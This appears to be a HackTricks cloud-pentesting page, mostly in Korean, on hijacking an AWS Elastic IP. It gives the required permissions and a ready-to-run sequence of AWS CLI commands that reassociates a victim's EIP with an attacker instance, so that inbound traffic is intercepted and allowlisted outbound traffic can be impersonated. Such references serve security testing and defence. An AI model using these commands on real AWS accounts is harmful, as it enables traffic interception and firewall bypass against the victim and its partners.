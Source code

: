 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## 요약

`ec2:AssociateAddress` (및 선택적으로 `ec2:DisassociateAddress`)를 악용하여 피해자 instance/ENI에 할당된 Elastic IP (EIP)를 공격자 instance/ENI로 재연결합니다. 이렇게 하면 EIP로 향하던 수신 트래픽이 공격자로 리디렉션되며, 공격자는 허용된 공용 IP로 발신 트래픽을 생성해 외부 파트너 방화벽을 우회할 수 있습니다.

## 전제 조건
- 대상 EIP 할당 ID가 동일한 계정/VPC에 있어야 합니다.
- 공격자가 제어하는 instance/ENI.
- 권한:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` on the EIP allocation-id and on the attacker instance/ENI
- `ec2:DisassociateAddress` (선택사항). 참고: `--allow-reassociation`은 이전 attachment에서 자동으로 분리됩니다.

## 공격

변수
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) 피해자의 EIP를 할당하거나 식별합니다 (랩이 새 EIP를 할당해 피해자에게 연결합니다)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) EIP가 현재 피해자 서비스로 해석되는지 확인합니다 (예: 배너 확인)
```bash
curl -sS http://$EIP | grep -i victim
```
3) EIP를 attacker에게 재연결 (victim에서 자동으로 분리됨)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) EIP가 이제 attacker service로 해석되는지 확인
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
증거 (이동된 연관):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## 영향
- Inbound impersonation: 하이재킹된 EIP로 향하는 모든 트래픽이 공격자 instance/ENI로 전달됩니다.
- Outbound impersonation: 공격자는 allowlisted public IP에서 발생한 것처럼 보이는 트래픽을 시작할 수 있습니다(파트너/외부 소스 IP 필터를 우회하는 데 유용).

{{#include ../../../../banners/hacktricks-training.md}}
